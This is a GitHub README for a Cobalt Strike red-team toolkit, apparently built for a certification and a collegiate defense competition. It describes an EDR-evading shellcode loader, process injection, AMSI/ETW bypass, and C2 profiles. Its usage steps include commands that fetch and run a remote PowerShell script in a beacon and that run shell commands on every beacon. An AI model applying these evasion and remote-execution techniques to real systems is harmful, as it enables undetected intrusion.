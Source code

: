 # Cobalt Strike Resources
Various resources to enhance Cobalt Strike's functionality and its ability to evade antivirus/EDR detection. Includes the custom tooling I used when pursuing the Certified Red Team Lead (CRTL) certification.

### Contents
#### Loader
- [loader](loader/) ⇒ used to bypass Windows Defender and Elastic EDR detections to run Cobalt Strike beacon shellcode `<protocol>_x64.xprocess.bin`
  - uses NtMapViewOfSection technique for shellcode injection
  - spawns and injects into msedge.exe by default, though you could easily change this
#### Profile
- [crtl.profile](profile/crtl.profile) ⇒ malleable C2 profile used on CRTL exam, based on [webbug.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/webbug.profile)
- [mwccdc.profile](profile/mwccdc.profile) ⇒ malleable C2 profile used for MWCCDC regionals in 2024, based on [microsoftupdate_getonly.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/microsoftupdate_getonly.profile)
#### Kits
- [sleepmask](kits/sleepmask/) ⇒ Cobalt Strike sleep mask kit modifications to spoof legitimate msedge.exe thread callstack
- [process_inject](kits/process_inject/) ⇒ Cobalt Strike process injection kit modifications that implement NtMapViewOfSection technique - not necessary since this option is available in the malleable C2 profile, but it's a good example of how to use kernel32.dll and ntdll.dll Windows API function calls to create your own injection. I found concrete examples of this to be severely lacking on the internet.
#### Post-Ex
- [powerpick.cs](post-ex/powerpick.cs) ⇒ C# code for running unmanaged PowerShell, providing the PowerShell command as an argument(s) - compatible with inline-x.cna
- [inline-x.cna](post-ex/inline-x.cna) ⇒ modified [inlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) cna file that makes running .NET assemblies and PowerShell inline easier
- [command-all.cna](post-ex/command-all.cna) ⇒ execute `run` or `shell` command on *all* active Cobalt Strike beacons, without having to interact with each one individually

**Note:** When building powerpick.cs, you'll have to add a reference to **System.Management.Automation.dll**, which is located in `C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\<version>`

### Loader Usage
#### Two executable types:
1. EXE ⇒ standard Windows executable
2. Service ⇒ Windows service executable

**Note:** [beaconsvc.cpp](loader/main/beaconsvc.cpp) gets caught by Elastic static detection when compiled, so you might have to modify it. You can also run the standard EXE as a service, and it'll throw an error but still spawn the beacon.
#### Three loader variants:
1. Download Stager ⇒ download shellcode from file hosted on Cobalt Strike team server over HTTPS
2. Read Stager ⇒ read shellcode from disk, by default C:\Windows\beacon.bin but you can change this
3. Stageless ⇒ include shellcode directly in PE as a resource (in .rsrc section) - requires encoding the shellcode so it's not caught by EDR
#### Building the loader
1. (stageless only) generate encoded Cobalt Strike shellcode file with [encoder.py](loader/helpers/encoder.py) - see comments for more info
2. open [.sln](loader/loader.sln) file in [Visual Studio](https://visualstudio.microsoft.com/free-developer-offers/)
3. (stageless only) follow instructions in [encoder.py](loader/helpers/encoder.py) to include encoded shellcode file as a resource
4. select your desired build
5. Build Solution

### Inline X Usage
1. Change `$powerpickPath` to specify the path of your unmanaged PowerShell exe (built from [powerpick.cs](post-ex/powerpick.cs))
2. Change `$etw` and `$amsi` as you see fit - I wanted it to always bypass AMSI and ETW, which is why I set these values to 1, though someone could argue this creates additional telemetry in cases where the AMSI/ETW bypass isn't necessary, and for this reason it's better to leave the default values at 0.
3. [Load script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_cs-scripting.htm) into Cobalt Strike
4. Execute .NET assembly inline with `x execute-assembly <exe> <args>`
5. Execute unmanaged powershell inline with `x powerpick <powershell>`
   - I made this compatible with `powershell-import`, but I noticed that using this method of importing scripts generally gets detected by EDR. If you'd like to remove this functionality altogether, comment/remove lines 257 and 258.
   - As an alternative, use `--import <script>` (eg. `x --import https://example.com/PowerView.ps1 powerpick Get-Domain`). You can specify a local file on disk or remotely hosted file with http/https. This only supports *one* script. I'm too lazy to extend the functionality to support multiple scripts when one per command is usually all you need.

**Note:** I commented out the portions of the script that parse arguments in single (') and double quotes (") as a single argument because most of my tooling handles or requires these quotes. For example, the unmanaged PowerShell implementation [powerpick.cs](post-ex/powerpick.cs) takes arguments passed in, converts them to one string, and runs that string. Treating multiple words as a single argument in PowerShell commands thus requires passing in those quotes as-is. You may run into instances where you *do* need to parse arguments in quotes as a single argument, much like you would when running the .NET executable in a terminal. If this is the case, you are welcome to uncomment the code portions starting on line 87 and reload the script.

### Command All Usage
1. [Load script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_cs-scripting.htm) into Cobalt Strike
2. Open Script Console
3. Execute `run` on all active beacons with `run_all <exe> <args>`
4. Execute `shell` on all active beacons with `shell_all <command>`

### Credit
My experience with AV/EDR evasion techniques and Cobalt Strike comes from the following:
- [Zero-Point Security Red Team Ops II](https://training.zeropointsecurity.co.uk/courses/red-team-ops-ii)
- [Maldev Academy](https://maldevacademy.com)
- [Midwest Regional Collegiate Cyber Defense Competition](https://www.cssia.org/mwccdc/) (I'm a red team volunteer)

I also recommend checking out the [Sektor7 Institute](https://institute.sektor7.net) courses

### Copyright Disclaimer
I was careful to avoid any copyright infringement with the resources I publicly provided in this repo. Here are two areas where copyright might come into question:
1. I include my modifications to the Cobalt Strike process injection and sleep mask kits from Fortra, which are closed-source. However, I only provided files to which I made modifications, and I replaced all portions of the code that were not my own with a comment stating *redacted*. Should you choose to use these resources, you'll have to copy my code portions over from this repo to the corresponding files in the kits.
2. In my loader, I included code taken directly from the Zero-Point Security Red Team Ops II course. However, this code is publicly available and easily-obtainable online as well. Telling ChatGPT to "write C++ code using WinHTTP to download a file and save it to an std::vector\<BYTE\>" yields almost the exact same code for the Download function, and the NtMapViewOfSection technique is [publicly documented](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection) in various locations, making use of the same Windows API function calls in the same order.
